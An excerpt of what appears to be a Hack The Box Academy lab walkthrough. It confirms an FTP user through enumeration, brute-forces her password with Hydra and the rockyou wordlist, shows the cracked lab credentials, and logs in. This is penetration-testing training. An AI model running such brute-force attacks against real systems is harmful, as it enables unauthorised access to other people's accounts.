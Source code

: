 ```

######## Scan started at Sun Nov 27 14:11:34 2022 #########
10.129.203.7: fiona@inlanefreight.htb exists
######## Scan completed at Sun Nov 27 14:11:36 2022 #########
1 results.

79 queries in 2 seconds (39.5 queries / sec)
```

Then, students need to bruteforce the FTP password of the user `fiona` using either `Hydra` or `medusa`; `Hydra` will be used, most importantly, the number of threads is set to 1, otherwise students will get a 550 error:

Code: shell

```shell
hydra -l fiona -P /usr/share/wordlists/rockyou.txt ftp://STMIP -u -t 1
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ hydra -l fiona -P /usr/share/wordlists/rockyou.txt ftp://10.129.3.107 -u -t 1

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-27 15:06:58
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking ftp://10.129.3.107:21/
[STATUS] 74.00 tries/min, 74 tries in 00:01h, 14344325 to do in 3230:43h, 1 active
[21][ftp] host: 10.129.3.107   login: fiona   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

With the found credentials `fiona:987654321`, students need to connect to the FTP server on the spawned target, providing `fiona` as the username and `987654321` as the password

Code: shell

```shell
ftp STMIP
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ ftp 10.129.203.7

Connected to 10.129.203.7.
220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
Name (10.129.203.7:root): fiona
331 password required for fiona
Password:
230-Logged on
230 
Remote system type is UNIX.
Using binary mode to transfer files.
```
